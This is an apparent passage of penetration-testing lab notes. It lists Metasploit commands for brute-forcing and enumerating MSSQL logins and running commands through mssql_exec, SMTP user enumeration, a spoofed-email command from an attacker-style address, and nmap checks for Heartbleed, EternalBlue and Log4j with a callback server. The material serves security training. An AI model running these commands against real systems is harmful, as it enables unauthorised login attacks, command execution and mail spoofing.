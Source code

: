             - `msfconsole`
                
            - `use auxiliary/scanner/mssql/mssql_login`
                
            - `set RHOSTS 10.4.23.176`
                
            - `set USER_FILE /root/Desktop/wordlist/common_users.txt`
                
            - `set PASS_FILE /root/Desktop/wordlist/100-common-passwords.txt`
                
            - `set VERBOSE false`
                
            - `exploit`
                
            - `use auxiliary/admin/mssql/mssql_enum`
                
            - `set RHOSTS 10.4.23.176`
                
            - `exploit`
                
            - `use auxiliary/admin/mssql/mssql_enum_sql_logins`
                
            - `set RHOSTS 10.4.23.176`
                
            - `exploit`
                
            - `use auxiliary/admin/mssql/mssql_exec`
                
            - `set RHOSTS 10.4.23.176`
                
            - `set CMD whoami`
                
            - `exploit`
                
            - `use auxiliary/admin/mssql/mssql_enum_domain_accounts`
                
            - `set RHOSTS 10.4.23.176`
                
            - `exploit`
                
        - SMTP
            
            SMTP (**Simple Mail Transfer Protocol)** - a communication protocol used for the transmission of email. Default SMTP TCP port is **25.**
            
            - `nmap -sV 192.63.243.3`
            - `nc 192.63.243.3 25` - banner grabbing
            - `telnet 192.63.243.3 25` - telnet
            - `smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t 192.63.243.3` - user enum
            - `use auxiliary/scanner/smtp/smtp_enum`
            - `sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.63.243.3 -u Fakemail -m "Hi root, a fake mail from admin" -o tls=no` - send fake mail
    - Vulnerability Assessment
        
        1. CVE
        2. CVSS
        3. Case studies
        
        - Heartbleed `nmap -sV --script ssl-heartbleed -p 443 <TARGET>`
        - EthernalBlue `nmap --script smb-vuln-ms17-010 -p 445 <TARGET>`
        - BlueKeep
        - Log4j `nmap --script log4shell.nse --script-args log4shell.callback-server=<CALLBACK_SERVER_IP>:1389 -p 8080 <TARGET_HOST>`
        